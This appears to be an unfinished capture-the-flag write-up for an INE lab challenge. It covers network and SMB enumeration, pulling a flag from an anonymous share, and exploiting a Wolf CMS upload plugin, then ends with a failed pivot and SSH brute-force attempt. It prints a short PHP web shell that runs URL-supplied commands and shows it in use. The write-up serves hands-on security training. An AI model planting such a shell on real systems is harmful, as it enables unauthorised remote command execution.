# INE CTF 2025 - Silent Footprint

## Intro (Network Pentest - CTF):

This challenge was part of INE’s CTF Arena and classified as **intermediate level**. It focused on practical **penetration testing** and **cyber exploitation**. The competition required tools such as **Nmap** for **enumeration**, **SMBClient** for **network shares access**, and various **web exploitation** techniques, including **CMS exploitation** and **privilege escalation**. The format simulates real-world environments, making it ideal for developing red-team skills and learning hands-on exploitation of network and web vulnerabilities.

## Challenge Progress

Flags Captured: 2/4
Current Status: Working on Flag 3

## Enumeration Phase
### nmap enum
```bash
nmap -sC -sV -Pn -p- ctf2.playground.ine -oN fullscan.txt
```
<p><align="center">
  
</p>

### Summary of Findings
| Port    | Service | Details                                                 |
|---------|---------|---------------------------------------------------------|
| 80/tcp  | HTTP    | Apache 2.4.7 (Ubuntu), .git folder exposed, PHP session |
| 3306/tcp| MySQL   | Version 5.5.47, native password auth, no SSL            |

## 🏁 Flag 1/4 – SMB Enumeration

### SMB enum

**Discover shared folders**

Ran SMB enumeration against the server:
```bash
smbclient -N -L //192.27.223.4
```

**Accessed the public share:**
```bash
smbclient //192.27.223.4/public -N
```
<p><align="center">
  
</p>

### Summary of Findings

**getting the flag.txt file :**

Inside, I located and downloaded a flag.txt file using:
```bash
smb: \> get flag.txt
```
<p><align="center">
  
</p>

**Capture the FLAG :**

Read the flag contents as confirmation.

<p><align="center">
  
</p>

## 🏁 Flag 2/4 – SMB Enumeration
Targeted ctf2.playground.ine’s web interface:

Found a login to Wolf CMS.
<p><align="center">
  
</p>

After we gained access to admin account :

<p><align="center">
  
</p>
<p><align="center">
  
</p>

we noticed the presence of a vulnerable file upload plugin.
<p><align="center">
  
</p>

we Uploaded a custom PHP web shell (similar to what follows):
```php
<?php
  echo shell_exec($_GET['cmd']);
?>
``` 
We exploited a potential Command Injection vulnerability by appending a system command (ls /var/www/html/) as a query parameter to the uploads.php endpoint:

- ctf2.playgroung.ine/public/uploads.php?cmd=ls /var/www/html/

<p><align="center">
  
</p>

we see the existance of the flag.txt file.

capture the second flag :
<p><align="center">
  
</p>

## 🏁 Flag 3/4 – SMB Enumeration

**pivot from the compromised host.**

 upload a custumized scan script (nmap is not allowed)

<p><align="center">
  
</p>
Discovered running OpenSSH service:

On internal eccessible IPs :

    192.250.231.1 (unreachbale)
    192.56.231.3 (ctf2.ine)

<p><align="center">
  
</p>


Outband accessible (suggesting possible brute force attempts).

    192.250.120.1

<p><align="center">
  
</p>


Tried brute-forcing credentials:
<p><align="center">
  
</p>
but without success so far...

---

Shoutout & Request for Hint
Many thanks to the INE Security Team for this engaging challenge. Progressing through these steps has given me great insight into real-world lateral movement and escalation techniques.

I’d appreciate any helpful write-up for Step 3 and 4.

